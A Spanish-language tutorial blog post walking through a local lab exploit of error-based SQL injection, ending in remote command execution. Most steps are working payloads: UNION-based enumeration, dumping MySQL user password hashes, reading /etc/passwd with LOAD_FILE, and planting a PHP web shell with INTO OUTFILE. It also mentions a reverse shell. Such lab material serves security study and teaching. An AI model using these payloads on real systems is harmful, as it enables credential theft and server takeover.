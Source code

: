 ```yaml
---
title:  "SQL Injection to RCE"
categories: 
  - Vulnerabilidades
tags:
  - Windows
  - Linux
  - OSCP
  - SQLi
  - RCE
toc: true
toc_label: "Tabla de contenido"
---
```


En el presente artículo estaré mostrando como podemos abusar de una inyección **`SQL`** basada en **error** para poder enumerar información sensible de las bases de datos con las que cuenta el servicio web y finalmente obtener ejecución remota de comandos **`(RCE)`** en 10 pasos.

## ¿Por qué sucede?

Una inyección **`SQL`** ocurre cuando la entrada del usuario se ingresa en la cadena de consulta **`SQL`** sin desinfectar o filtrar adecuadamente la entrada.

## Laboratorio

Para poder configurar su laboratorio deberá realizar lo siguiente:

1. Crear la carpeta **`SQL`** en **`/var/www/html/`**.
2. Asignar permisos de escritura a otros a la carpeta **`SQL`** **`(chmod o+w SQL)`**
3. Descargar el [proyecto](https://github.com/hacknotes/h4ckn0tes/tree/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico).
5. Iniciar el servicio **mysql** **`(sudo service mysql start)`**
5. Iniciar un servicio **web** **`(sudo service apache2 start)`**
6. seguir los pasos que se indican en [sistema.sql](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/sistema.sql)
7. Modificar el fichero [conexion.php](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/conexion.php) con los datos del fichero [sistema.sql](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/Ejercicio%20Pr%C3%A1ctico/sistema.sql), solo si es necesario.

Una vez realizado todos los pasos nos podremos dirigir a **`http://localhost/SQL/`** y ahí podremos registrar nuevos usuarios.

![Panel principal](/assets/images/SQLi2RCE/panelPrincipal.png)

**NOTA:** Para realizar este ejercicio nos guiaremos del siguiente [cheatsheet](https://github.com/hacknotes/h4ckn0tes/blob/main/SQL%20INJECTION/Error%20Based/errorBased.md).
{: .notice--danger}

## Explotación

Como había mencionado con anterioridad necesitaremos de 10 pasos para lograr extraer información y obtener RCE.

### 1. Error de sintaxis
En este paso trataremos de buscar en que punto podemos ocasionar un error de sintaxis con caracteres como: **`' ) ; , "`**.
	
```sql
http://localhost/SQL/search.php?name_search='
```
![Error de syntaxis](/assets/images/SQLi2RCE/syntaxError.png)

### 2. Número de columnas
Para este paso una vez que se sabe donde ocurre un error de sintaxis, deberemos enumerar la cantidad de columnas con las que cuenta la base de datos actual, esto lo podremos lograr con la cláusula **`ORDER BY`** y pasándole un número hasta dejar de obtener un error **`(Unknow column)`**.

```sql
http://localhost/SQL/search.php?name_search=' ORDER BY 100-- -
```
```sql
http://localhost/SQL/search.php?name_search=' ORDER BY 4-- -
```
![Numero de columnas](/assets/images/SQLi2RCE/enumColumns.png)

Vemos que al momento de indicarle el número **`4`** el error deja de presentarse y nos muestra la tabla de usuarios.

### 3. Versión de la base de datos
Es necesario saber con qué versión de base de datos se está trabajando para poder orientar nuestras consultas **`SQLi`** de mejor manera, incluso ver si la versión es vulnerable a algún exploit público.

Esto lo podremos realizar con la cláusula **`UNION`** e indicándole **`@@version`** tomando en cuenta el número de columnas encontradas con anterioridad, ya que si **`no`** le pasamos el mismo número de columnas en nuestra consulta tendremos un error.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,@@version,NULL-- - 
```
```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,@@version,NULL,NULL-- -
```
![Version](/assets/images/SQLi2RCE/version.png)

### 4. Extraer todas las bases de datos en el sistema
Ya en este punto podemos listar **`todas`** las bases de datos que contiene el servicio web. Esto lo podemos lograr abusando de la base de datos **`INFORMATION_SCHEMA`** la cual contiene metadatos sobre todas las base de datos y sus tablas presentes en el servidor.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,SCHEMA_NAME,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
![Base de datos](/assets/images/SQLi2RCE/bd.png)

### 5. Enumerar la base de datos actual
Es importante saber con qué base de datos se está trabajando para poder decidir si vale la pena seguirla enumerando o tal vez saltar a otras.

Para enumerar la base de datos actual usaremos **`database()`**.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,database(),NULL,NULL-- -
```
![Base de datos actual](/assets/images/SQLi2RCE/actualBD.png)

### 6. Enumerar las tablas
Como ya sabemos que base de datos es la actual, ahora podríamos enumerar las tablas con las que esta cuenta, para realizarlo nuevamente nos aprovecharemos de `INFORMATION_SCHEMA`.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,table_name,NULL,NULL FROM INFORMATION_SCHEMA.tables WHERE table_schema="sistema"-- -
```
![Base de datos actual](/assets/images/SQLi2RCE/tabla.png)

### 7. Enumerar las columnas
En este punto ya tenemos el nombre de la base actual `(sistema)`, el nombre de la tabla `(datos)`, por lo cual lo que sigue es saber con qué columnas cuenta nuestra tabla.

Nuevamente, nos aprovecharemos de `INFORMATION_SCHEMA`.

```sql
localhost/SQL/search.php?name_search=' UNION SELECT NULL,column_name,NULL,NULL FROM INFORMATION_SCHEMA.columns WHERE table_schema="sistema" AND table_name="datos"-- -
``` 
![Columnas](/assets/images/SQLi2RCE/columnas.png)

El siguiente paso será obtener los datos, pero si notamos en la imagen las columnas que obtuvimos son las mismas que ya muestran el sitio web, así que no obtendríamos más información de la que estamos viendo en esta base de datos, por lo cual podríamos enumerar una base de datos diferente, para lo cual repetiré el paso 6 y 7 nuevamente con una base de datos distinta.
{: .notice--danger}

Si recordamos en el [paso 4](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#4-extraer-todas-las-base-de-datos-en-el-sistema) aparte de listar la base de datos `sistema`, también se nos mostraba otras, para este caso yo enumerare la base de datos `mysql`.

- Enumerar las tablas de la base de datos mysql

  Para realizar esta acción repetiremos el paso [6](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#6-enumerar-las-tablas) pero cambiando los datos.

  ```sql
  http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,table_name,NULL,NULL FROM INFORMATION_SCHEMA.tables WHERE table_schema="mysql"-- -
  ```
  ![Tablas de mysql](/assets/images/SQLi2RCE/mysqlTables.png)

  Ya que sabemos las tablas de la base de datos `mysql`, procederé a enumerar una de ellas en este caso la tabla `user`.

- Enumerar las columnas de la tabla `user` de la base de datos `mysql`

  Para realizar esta acción repetiremos el paso [7](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#7-enumerar-las-columnas) pero cambiando los datos.

  ```sql
  http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,column_name,NULL,NULL from INFORMATION_SCHEMA.columns WHERE table_schema="mysql" AND table_name="user"-- -
  ```

  ![Columnas de mysql](/assets/images/SQLi2RCE/mysqlColumns.png)

### 8. Extraer los datos

Ya en este punto nada más nos hace falta extraer los datos, lo cual podemos realizarlo con la siguiente consulta respetando el número de columnas con las que cuenta la tabla de la actual base de datos **`sistema`**.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,concat(User,0x3a,Password),NULL,NULL FROM mysql.user-- -
```
![Datos](/assets/images/SQLi2RCE/data.png)

Podemos notar que obtenemos lo solicitado en nuestra consulta `(User,Password)`, con esta información podríamos hacer uso de herramientas como `hashid` para saber el tipo de `hash` y `hashcat` para intentarlo romper.

**NOTA:** Sabemos de antemano que estos datos pertenecen a los creados a la hora de crear nuestro [laboratorio](https://hacknotes.github.io/vulnerabilidades/sqli2rce/#laboratorio).
{: .notice--danger}

**NOTA:** Recordemos que ahora estamos realizando la consulta bajo la base de datos `mysql`.
{: .notice--danger}

### 9. Lectura de archivos

Otra cosa muy importante a probar cuando encontramos una `inyección SQL` es probar si somos capaces de leer ficheros alojados en el sistema. Esto podríamos lograrlo con `LOAD_FILE()`.

```sql
http://localhost/SQL/search.php?name_search=' UNION SELECT NULL,LOAD_FILE("/etc/passwd"),NULL,NULL-- -
```

![passwd](/assets/images/SQLi2RCE/readFile.png)

### 10. Escritura de archivos

Finalmente probaremos si tenemos permisos de escritura sobre el sistema. Lo podríamos hacer con `INTO OUTFILE()`.

Con la siguiente línea estamos escribiendo una sentencia `php` que nos permita ejecutar cualquier comando sobre el sistema por medio del parámetro `cmd`.

```sql
http://localhost/SQL/search.php?name_search=' union select "NULL",("<?php system($_GET['cmd']) ?>"),"NULL","NULL" INTO OUTFILE "/var/www/html/SQL/shell.php"-- -
```
Si no tenemos ningún error y sobre todo si contamos con permisos de escritura sobre la ruta en la cual estamos depositando nuestro fichero el sitio web no debería mostrar nada como podemos observar a continuación.

![Escribir archivo](/assets/images/SQLi2RCE/writeFile.png)

Una vez ejecutado lo anterior nos podremos dirigir a la ruta donde alojamos nuestro fichero para poder ejecutar comandos.

```sql
view-source:http://localhost/SQL/shell.php?cmd=ls -la
```

![rce](/assets/images/SQLi2RCE/rce.png)

**NOTA:** Ahora que ya somos capaces de ejecutar cualquier comando sobre el sistema recuerden que se podría obtener una conexión inversa.
{: .notice--danger}
